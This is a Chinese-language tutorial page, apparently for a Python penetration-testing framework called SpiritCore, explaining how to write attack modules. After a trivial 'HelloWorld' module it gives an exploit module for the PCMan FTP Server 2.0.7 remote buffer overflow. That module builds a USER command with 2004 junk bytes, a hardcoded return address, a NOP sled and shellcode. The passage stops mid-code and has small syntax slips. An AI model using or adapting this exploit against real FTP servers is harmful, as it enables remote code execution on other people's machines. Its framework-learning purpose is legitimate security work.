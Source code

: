 

#### 3.2 模块主类
##### 3.2.1模块主类定义
我们以下代码为简易无功能模块
```Python
from SpiritCore.Modules import * #Modules定义处
from SpiritCore.System import *  #用于管理控制台输入 以下print_success
class Module(Modules):
        Info = {
                "Name": "Test", #模块名
                "Author": "ZSD",# 作者信息
                "Description": "Test ",#模块解释
                "Options": (#参数管理
                        ("Port", "23", True, 'Port Info',None),#参数
                        #名 Port
                        #值 23
                        #是否为空 True
                        #参数解释 Port Info
                        #可选参数 None 如果使用修改为["23","22"]两个参数。
                ),
                "Payload":["windows/exec","Payload Manager"],#采用Payload 如果不使用payload 删掉即可
     }


        def Exploit(self):
            print_success("HelloWorld") 
            print_msg("Port:"+self.Parameate["Port"])
            #输出Port的值

```
以上解释信息。
* __Exploit__ 此函数是模块执行入口，任何攻击代码从此处开始执行。
* __Info__ 此处标记模块信息与参数定义。
* 第1 第2行代码 此两行代码为导入扩展 3.1.2 有相对应解释。

##### 3.2.2 一个简单缓冲区溢出攻击模块
```Python
from SpiritCore.Modules import * 
from SpiritCore.System import *  
class Module(Modules):
        Info = {
                "Name": "PCMan FTP Server Remote Buffer Overflow", 
                "Author": "ZSD",
                "Description": "PCMan FTP Server 2.0.7 - Remote Buffer Overflow  ",
                "Options": (
                    ("Address", "23", True, 'PCMan FTP Server Address',None),
                    ("Port", "21", True, 'FTP Port',["21","2121"]]),
                        
                ),
                "Payload":["windows/spiriter","Payload Manager"],
     }


        def Exploit(self):
            print_msg("Connecting Target IP Address:%s"%self.Parameate["Address"])
            Cmd = b"USER " #Vulnerable command
            JuNk = b"\x42" * 2004
            ret = b"\x65\x82\xA5\x7C"  #Return Address  
            nop = b"\x90" * 50
            shellcode=self.Payload.PayloadData
            print_msg("Send ShellCode Data Length:%d"%self.Payload.Lenght)
            packet = Cmd + JuNk + ret + nop + shellcode
            try:
```